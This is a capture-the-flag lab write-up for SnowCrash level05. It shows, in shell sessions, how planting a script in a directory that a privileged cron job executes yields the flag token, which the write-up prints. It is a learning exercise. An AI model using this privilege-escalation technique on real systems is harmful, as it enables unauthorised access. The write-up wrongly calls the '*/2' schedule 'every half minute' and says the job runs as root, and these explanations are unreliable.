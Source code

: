 # level05

## Hint

As we log in as `level05` we get a message:

```shell-session
λ Securite/snowcrash42/level05 ssh level05@192.168.100.166 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.100.166 2a04:cec0:1187:ab2:1886:f709:f517:3334 2a04:cec0:1187:ab2:a00:27ff:fef7:2e52
level05@192.168.100.166's password:
You have new mail.
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The mail tells us that there is a crontab scheduled, every half minute, to run a script located in `/usr/sbin/openarenaserver` as root.

## the script

After inspection of script:

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We now know that the script simply executes all scripts located in `/opt/openarenaserver`.

## cron

cron is a convenient system wide scheduling tool that runs scripts as root.

To exploit that, all we have to do is add a script that runs our `getflag` command and prints the output to a file we may access:

```shell-session
level05@SnowCrash:/opt/openarenaserver$ echo 'getflag > /tmp/flag' > getflag.sh
level05@SnowCrash:/opt/openarenaserver$ chmod 777 getflag.sh
level05@SnowCrash:/opt/openarenaserver$ ls -l
total 4
-rwxrwxrwx+ 1 level05 level05 20 May  5 12:57 getflag.sh
```

## getflag

After a minute of attempting the display of that file, we eventually get our flag:

```shell-session
level05@SnowCrash:/tmp$ cat flag
cat: flag: No such file or directory
level05@SnowCrash:/tmp$ cat flag
cat: flag: No such file or directory
level05@SnowCrash:/tmp$ cat flag
cat: flag: No such file or directory
level05@SnowCrash:/tmp$ cat flag
cat: flag: No such file or directory
level05@SnowCrash:/tmp$ cat flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/tmp$ cat flag
```
